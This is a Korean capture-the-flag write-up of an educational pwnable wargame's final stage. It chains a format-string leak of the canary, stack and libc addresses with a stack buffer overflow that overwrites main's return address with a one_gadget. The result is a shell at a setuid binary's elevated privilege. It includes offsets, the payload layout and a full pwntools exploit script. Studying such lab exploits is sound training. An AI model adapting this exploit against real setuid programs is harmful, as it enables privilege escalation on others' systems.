- **NX**라서 셸코드를 못 올린다 → 이미 메모리에 있는 libc 코드를 재사용(ret2libc).
- **Full RELRO**라 GOT를 못 덮는다 → 쓰기 타겟을 **스택의 리턴 주소**로.
- 리턴 주소를 **one_gadget**(libc 안의, 한 번 점프로 `execve("/bin/sh")` 해주는 주소)으로 덮으면, **주소 하나만** 쓰면 되어서 제일 간단하다.

> **one_gadget이란**
libc 안에는 `execve("/bin/sh", argv, envp)`를 바로 실행해주는 지점들이 있다. `one_gadget libc.so.6`로 후보를 뽑으면, 각 후보마다 **발동 조건(constraints)**이 붙어 있다. (예: `0xebc18`은 "`[rbp-0x78]`과 `[rbp-0x70]`이 NULL(또는 유효한 argv/envp)이어야" execve가 성공한다.) 조건이 안 맞으면 터진다(SIGSEGV).
> 

##### 2-3. 카나리 우회

BOF로 리턴 주소를 덮으려면 중간의 **카나리**를 지나쳐야 하는데, 카나리가 바뀌면 함수 종료 시 탐지되어 죽는다. 하지만 **첫 번째 단계에서 카나리를 leak**해두고, BOF payload에 **원래 카나리 값을 그대로 다시 써넣어서** 탐지를 통과할 수 있다.

> **카나리는 스레드당 하나**
카나리는 `fs:0x28`에 저장된 프로세스(스레드) 공통 값이다. 그래서 main에서 leak한 카나리와 BOF로 덮을 main의 카나리가 **같은 값**이라, 첫 번쨰의의 leak을 그대로 두 번째에 쓸 수 있다.
> 

---

#### 3. 필요한 정보 확인

##### 3-1. FSB leak 오프셋 (printf 기준)

case 3에 `%p`를 쭉 넣어 스택을 확인하고, gdb로 각 위치가 뭔지 확인한다.

> **printf `%N$p` ↔ gdb stack 인덱스 공식**`printf(fmt, ...)`는 fmt=rdi, 첫 vararg=rsi. 레지스터(rsi~r9)가 %1~%5, 그 다음 스택이 %6부터. gdb `stack`의 인덱스 00은 rsp(리턴주소)라서 → **`%N$p` = stack 인덱스 (N−5)**.
> 

gdb 덤프에서 찾은 위치:

| 찾는 것 | 위치 | 복원 공식 |
| --- | --- | --- |
| 스택 주소(argv 포인터) | `%6$p` | `main_rbp = leak - 0x118` |
| 카나리 | `%31$p` | 그대로 사용 |
| libc | `%33$p` (=`__libc_start_call_main+128`) | `libc_base = leak - 0x29d90` |

##### 3-2. BOF Offset

gdb에서 `password`가 `main_rbp - 0x50`에 있는 걸 확인했다. 카나리는 `main_rbp - 0x8`.

```
password[0] ── (0x48 바이트) ── 카나리(rbp-0x8) ── saved rbp(rbp) ── 리턴(rbp+8)
```

- padding(= password → 카나리) = `0x50 - 0x8` = **0x48**
- payload 구조: `'A'*0x48 + canary + FAKE_RBP + one_gadget`
- 길이: 0x48 + 8 + 8 + 8 = 0x60 = 96바이트 (read 100 안에 작성 가능하다.)

##### 3-3. 쓰기 타겟 == main의 리턴 주소

BOF가 덮는 `passwd`는 **main의 `password` 버퍼**(포인터로 넘어옴)다. 그래서 오버플로우는 **main의 프레임**(카나리·saved rbp·리턴)을 덮는다. → main이 `count==3`에 리턴할 때 one_gadget이 발동.

##### 3-4. one_gadget

```bash
one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

→ 후보 중 `0xebc18` (`execve("/bin/sh", [rbp-0x78], [rbp-0x70])`). **rbp를 우리가 조작(FAKE_RBP)**할 수 있어서, `[rbp-0x78]`/`[rbp-0x70]`이 NULL인 상태를 맞춰 발동시킨다.

---

#### 4. Exploit

```python
from pwn import *
import re
context.arch = 'amd64'

p = process('./final')
ONE_GADGET = 0xebc18

### 1: leak (case 3)
p.sendafter(b'Your ID : ', b'%6$p.%31$p.%33$p\n')   # 인식 안 되는 ID -> case 3
data = p.recvuntil(b'!Invalid!')
argv_leak, canary, libc_leak = [int(h,16) for h in re.findall(rb'0x[0-9a-f]+', data)[:3]]
libc_base = libc_leak - 0x29d90
main_rbp  = argv_leak - 0x118
og        = libc_base + ONE_GADGET
FAKE_RBP  = main_rbp
log.info("canary=%#x libc=%#x main_rbp=%#x og=%#x", canary, libc_base, main_rbp, og)

### Round 2: BOF (case 2 Doctor)
p.sendafter(b'Your ID : ', b'Doctor\n')
bof = b'A'*0x48 + p64(canary) + p64(FAKE_RBP) + p64(og)
p.sendafter(b'Password : ', bof)                    # read(100) > password[0x40] -> 오버플로우

### Round 3: count==3 유도 -> main return -> og 
p.sendafter(b'Your ID : ', b'A\n')
p.interactive()
```

> **참고로 BOF 때 `fprintf(passwd)` FSB가 안 터진다**
2번째 단계 payload가 `'A'*0x48 + p64(canary) + ...`인데, **리눅스 카나리의 첫 바이트는 항상 `\x00`**이다. `fprintf(passwd)`는 'A' 72개를 출력하다 그 널에서 **멈춘다.** 뒤의 주소 바이트(`%`나 널 포함)를 포맷으로 해석하지 않아서 FSB 사고가 안 난다. BOF는 `read` 단계에서 이미 100바이트를 다 읽어 완성된 상태다.
> 

---

#### 5. 클리어


Round 3에서 `count==3` → `puts("BOOM!! Find your ID")` 후 main이 `return` → 덮어둔 리턴 주소(one_gadget)로 점프 → `execve("/bin/sh")` → 셸 획득. setuid 바이너리라 **다음 유저 권한**의 셸을 얻는다.

---

#### 6. 부록

##### 처음엔 `fprintf(passwd)` FSB의 `%n`으로 풀려고 했다 → 실패

원래 계획은 2**번 취약점을 FSB로** 보고, `fprintf(access_log, passwd)`의 `%n`으로 **check_passwd의 리턴 주소를 one_gadget으로 덮는** 것이었다.

```python
payload = fmtstr_payload(27, {write_target: og})   # %n으로 리턴 주소에 og 쓰기
```

leak offset(27), write_target 다 정확히 맞췄는데도 **계속 SIGSEGV가 발생해서,** 코어 덤프를 떠서 확인해보니

```
=> printf_positional+6925:  mov BYTE PTR [rax], dil   ← %n이 [rax]에 쓰다 터짐
   rax = 0x4613f5cb                                    ← 0x7fff4613f5cb 에서 상위 4바이트 잘림
```

→ `%n`이 써야 할 **타겟 주소(0x7fff...)가 32비트로 truncation**됐다. 이건 **glibc positional `%n`(`%27$hn`) + `fmtstr_payload`에서 생기는 알려진 버그**다. 중간 인자들의 타입을 glibc가 잘못 추정해 타겟 읽기가 어긋난 것.

> `fprintf`/`printf`의 positional `%n` 쓰기는 중간 인자 gap 때문에 주소가 잘릴 수 있다. 이럴 땐 `%n`을 고집하지 말고 다른 쓰기 수단(여기선 BOF)을 찾는 게 빠르다.
> 

##### one_gadget 후보를 무작정 바꿨다

`%n` 버그를 모를 때는 "one_gadget 조건이 안 맞나?" 하고 `0xebbc8`, `0xebbc5`, `0xebc22`, `0xebc18`을 **계속 바꿔 끼웠다.** 전부 SIGSEGV. 사실 **원인은 one_gadget이 아니라 `%n` 쓰기 자체가 깨진 것**이었다. 코어 덤프의 `$pc`가 `printf_positional`을 가리킨 걸 보고서야 알았다.

> 크래시 원인을 추측으로 때려맞히지 말고, **코어 덤프의 `$pc`(터진 명령 위치)를 먼저 봐야** 한다. "one_gadget 안에서 터졌나 / 쓰기 과정에서 터졌나"가 바로 갈린다.
> 

##### `0xebc18`은 "실행 시점"의 스택 상태에 의존한다

gdb(카피본, "AAAA" 입력)로 보면 `[rbp-0x78]=0`이라 `0xebc18`이 될 것 같았지만, **실제 실행에선 그 자리가 쓰레기값**이라 argv 역참조에서 터질 수 있었다. gdb(ASLR 꺼짐, 환경 다름) 상태 ≠ 실제 실행 상태였던 것.

> one_gadget의 rbp-상대 조건은 **실행 시점의 스택 내용**에 민감하다. **rbp를 직접 조작할 수 있는 BOF**가 FSB보다 이 문제에선 훨씬 안정적이다 (FAKE_RBP로 조건 맞는 위치를 가리킬 수 있으니까).
> 

##### setuid 바이너리는 코어를 안 남긴다

실제 `./final`(setuid)로는 코어 덤프가 안 나왔다. **카피본(`/tmp/final_dbg`, setuid 없음)**으로 돌려야 코어가 생긴다. 오프셋·레지스터는 코드·libc가 같으니 카피본으로 측정해도 그대로 유효하다. (`ulimit -c unlimited` + pwntools `p.corefile`로 수집)

---

#### 7. 마치며

보안 공부 중, 그나마 제일 많이 학습한 분야가 pwnable이다. 하지만, 드림핵같은 워게임을 학습할 때마다 벽에 가로막혔고 그 벽들은 대부분 PIE, ASLR, libc version 문제 등이였다. (물론, 내가 아직 실력이 부족한 것도 한 몫 한다.)
하지만 이번 워게임 같은 경우, 마지막(final)을 제외하고는 no pie 위주이기도 했고 libc version 불일치로 크게 문제가 생기는 일도 없어서 내가 알고 있는 pwnable 개념들을 실습하며 잊혀진 기억들을 다시 복구하는 데에 정말 효과적이였다.

Ch1부터 Ch10까지 풀며 전부 나 혼자만의 힘으로 풀었다고는 할 수 없다. (AI사용30%, 구글링 서치 10%, 내 힘 60%) 
하지만, 이전에 포너블을 학습하고 워게임을 풀었을 때와는 다르게 지금은 머릿속에 포너블 공격 기법이나, 보호기법들의 우회 방법등이 깔끔하게 정리된 기분이다. 복습의 효과인지, 워게임 덕분인지는 모르겠으나 성장할 수 있어서 만족한다.

끝으로, 이 워게임이 HSpace에서 제작된 걸로 보인다. 이런 **(경쟁이 아닌) 학습 목적의 워게임**을 만들어 제공해주신 HSpace 분들께 감사드린다.

[↑ 챕터 목록](#chapter-index)
